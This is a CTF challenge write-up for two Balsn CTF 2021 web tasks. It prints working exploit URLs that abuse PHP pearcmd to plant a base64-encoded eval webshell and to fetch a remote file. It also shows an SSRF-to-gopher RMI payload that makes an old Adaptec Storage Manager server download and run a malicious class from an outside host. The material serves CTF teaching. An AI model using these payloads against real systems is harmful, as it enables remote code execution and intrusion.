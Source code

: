 # Balsn CTF 2021

# 2linephp

- Difficulty: ★
- Type: Web
- Solved: 8 / 284
- Tag: Warmup, PHP

## Source Code

- [2linephp](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/2linephp/)

## Solution

In 2020, I have made a similar challenge in a chinese CTF (巅峰极客2020 - MeowWorld).

But the difference is that we can't use http/https and our webshell should start with `<?php`.

### Intened Solution
- `/?+channel-discover+kaibro.tw/302.php?&kaibro=/usr/local/lib/php/pearcmd`
    - 302.php will redirect to http://kaibro.tw/test.php
    - pear will download test.php to `/tmp/pear/temp/test.php`

### Unintended Solution

There are many interesting unintended solutions :D

- sol1 - command injection (from 0daysober)
    - `/?+install+-R+&kaibro=/usr/local/lib/php/pearcmd&+-R+/tmp/other+channel://pear.php.net/Archive_Tar-1.4.14`
    - `/?+bundle+-d+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/+/tmp/other/tmp/pear/download/Archive_Tar-1.4.14.tgz+&kaibro=/usr/local/lib/php/pearcmd&`
    - `/index.php?+svntag+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/Archive_Tar+&kaibro=/usr/local/lib/php/pearcmd&'`
- sol2 - php filter (from 10sec)
    - `/?+config-create+/&eHh4eD4qKipQRDl3YUhBZ2MzbHpkR1Z0S0NSZlIwVlVXMk50WkYwcE96czdQejRn<&kaibro=/usr/local/lib/php/pearcmd&/<meow>+/tmp/meoww.php`
    - `/?kaibro=php%3a//filter/read=string.strip_tags%7Cconvert.base64-decode%7Cstring.strip_tags%7Cconvert.base64-decode/resource=/tmp/meoww&cmd=/readflag`
- and more!

## Writeups

- TBD

---

# 4pple Music

- Difficulty: ★★
- Type: Web
- Solved: 2 / 284
- Tag: Java, RealWorld, BlackBox, Pentesting

## Source Code

- [4pple Music](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/4ppleMusic/)

## Solution

1. Find the SSRF vulnerability

```
POST /index.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Connection: close

url=http://kaibro.tw
```

2. Port Scanning to `flagserver.local`

There are many open ports on `flagserver.local`, like `34571`, `34572`, ...

If you visit http://flagserver.local:34572, you will see the following response:

```xml
<OBJECT
    NAME = "%APPLICATION%"
    classid = "clsid:8AD9C840-044E-11D1-B3E9-00805F499D93"
    codebase = "http://java.sun.com/products/plugin/autodl/jinstall-1_4_2_05-windows-i586.cab#Version=1,4,1,3"
    WIDTH = 100% HEIGHT = 100% >
    <PARAM NAME=CODE VALUE=com.ibm.sysmgt.raidmgr.mgtGUI.Launch>
    <PARAM NAME="type" VALUE="application/x-java-applet;jpi-version=1.4.2_05">
    <PARAM NAME="scriptable" VALUE="false">
    <PARAM NAME="cache_option" VALUE="Plugin">
    <PARAM NAME="cache_archive" VALUE="RaidManS.jar">
    <PARAM NAME="progressbar" value="true">
    <PARAM NAME="boxmessage" value="Loading %APPLICATION% ...">
    <PARAM NAME="progresscolor" value="blue">
    <PARAM NAME="image" value="help/scan_l.gif">
    <PARAM NAME="bgColor" VALUE="FFFFFF">
    <COMMENT>
	<EMBED
            NAME= "StorageManager"
            type = "application/x-java-applet;jpi-version=1.4.2_05"
            CODE = com.ibm.sysmgt.raidmgr.mgtGUI.Launch
            WIDTH = 100%
            HEIGHT = 100%
	        scriptable="false"
	        pluginspage="http://java.sun.com/getjava"
            image="/help/scan_l.gif"
            cache_option="Plugin"
            cache_archive="RaidManS.jar"
            progressbar="true"
            boxmessage="Loading %APPLICATION%..."
            progresscolor="blue"
            bgColor="FFFFFF">
	    <NOEMBED>
        Your browser can not load the Sun Java Applet Plugin...
        </NOEMBED>
	</EMBED>
    </COMMENT>
</OBJECT>
```

Try to google these keywords, and you will find `Adaptec Storage Manager`.

(The 404 page also tell you this is Adaptec Storage Manager Server: `Adaptec Storage Manager File Server:  Error 404.`)

So our target is to pwn this Adaptec Storage Manager server!

3. Attack RMI

If you [install Adaptec Storage Manager](https://adaptec.com/en-us/downloads/storage_manager/sm/productid=sas-3085&dn=adaptec+raid+3085.html) on your local machine or decompiling the RaidManS.jar, you will find that 34571 port is **RMI Registry** Service.

Next, you can send RMI header packet with `gopher://` to verify it:

```
url=gopher://flagserver.local:34571/_JRMI%2500%02K%2500%2500%2500%2500%2500%2500
```

->

```
N
172.18.0.3�z
```

Next step is to attack this RMI service and find the flag.

Because this service is very old (the newest release date is `25 Aug 2010`), so the jdk is very likely to be old too.

(In the old jdk version (< 6u45/7u21), if RMI can't find the class, it will try to load the class from the codebase.)

So we can try to attack the codebase, setting the codebase to our server:

```
gopher://flagserver.local:34571/_JRMI%2500%2502K%2500%2500%2500%2500%2500%2500P%25AC%25ED%2500%2505w%2522%2500%2500%2500%2500%2500%2500%2500%2502%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%25F6%25B6%2589%258D%258B%25F2%2586Cur%2500%2518%255BLjava.rmi.server.ObjID%253B%2587%2513%2500%25B8%25D0%252Cd%257E%2502%2500%2500pxp%2500%2500%2500%2500w%2508%2500%2500%2500%2500%2500%2500%2500%2500sr%2500%2510kaibro.RMILoader%2500%2500%2500%2500%2500%2500%2500%2501%2502%2500%2500t%2500%2516http%253A%252F%252F30cm.club%252F%252F%252F%252F%252F%252Fxpw%2501%2500%250A
```

This payload will download my [malicious class file](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/4ppleMusic/exploit/kaibro/RMILoader.java) from `http://30cm.club/kaibro/RMILoader.class` and execute it!

=> RCE!



Note: you should use correct jdk version to compile this malicious class, you can simply send a http request to your server and observe the user-agent to know the jdk version of the RMI service:

`HTTP/1.1" 200 1395 "-" "Java/1.6.0_16"`


<br>

(Actually, this is a realworld case reproduced. Maybe it is boring, but I think it is suitable for people to learn how to attack RMI in realworld.)

## Writeups
- TBD
